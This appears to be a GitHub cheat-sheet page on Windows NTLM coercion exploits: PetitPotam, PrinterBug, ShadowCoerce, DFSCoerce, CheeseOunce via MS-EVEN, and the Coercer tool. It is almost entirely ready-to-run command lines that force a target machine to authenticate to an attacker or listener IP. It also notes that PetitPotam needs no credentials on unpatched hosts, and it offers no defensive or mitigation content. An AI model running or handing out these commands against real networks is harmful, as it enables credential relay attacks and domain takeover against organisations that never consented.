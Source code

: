 # PetitPotam \ PrinterBug \ ShadowCoerce \ DFSCoerce \ CheeseOunce

Exploits to coerce Net-NTLM authentication from a computer. PetitPotam can be used without any credentials if no patch has been installed.

##### PetitPotam

    ./PetitPotam.exe attacker_IP target_IP

##### PrinterBug

    ./SpoolSample.exe target_IP attacker_IP

##### ShadowCoerce

    python3.exe shadowcoerce.py -d domain.local -u user1 -p password attacker_IP target_IP

##### DFSCoerce

    python3.exe dfscoerce.py -u user1 -d domain.local <listener_IP> <target_IP>

##### CheeseOunce via MS-EVEN

    ./MS-EVEN.exe <listener_IP> <target_IP>

# Multi Coerce

Try all the techniques above in one command with this.

https://github.com/p0dalirius/Coercer

    coercer.py coerce -u user1 -p password -d domain.local -t <target_IP> -l <attacker_IP> -v
